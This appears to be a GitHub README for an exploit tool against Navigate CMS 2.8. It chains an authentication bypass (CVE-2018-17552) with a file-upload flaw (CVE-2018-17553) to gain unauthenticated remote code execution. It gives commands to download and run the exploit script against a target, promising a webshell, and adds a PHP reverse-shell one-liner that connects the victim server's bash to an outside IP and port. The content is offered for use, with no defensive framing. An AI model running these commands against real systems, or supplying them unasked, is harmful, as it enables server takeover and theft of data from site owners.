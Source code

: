 # Navigate-CMS-RCE -Unauthenticated-
This module exploits insufficient sanitization in the database::protect method, of Navigate CMS versions 2.8

This script exploits:
- CVE 2018-17552  # Authentication bypass
- CVE 2018-17553  # File upload


## Use Mode
<pre><code>wget https://raw.githubusercontent.com/albertor02/Navigate-CMS-RCE-Unauthenticated-/main/navigate_RCE.sh

./navigate_RCE.sh navigator.hm</code></pre>

![image](https://user-images.githubusercontent.com/6622069/206307543-97cff429-f41c-471d-9e76-85620708ec84.png)

Getting a simple webshell. Enjoy!

## Tip: Upgrade to ReverseShell
<pre><code>php -r '$sock=fsockopen("192.168.153.133",9000);system("/bin/bash <&3 >&3 2>&3");' </code></pre>

![image](https://user-images.githubusercontent.com/6622069/206309051-e423ad7c-b473-4463-ad82-a1d8606e31ac.png)
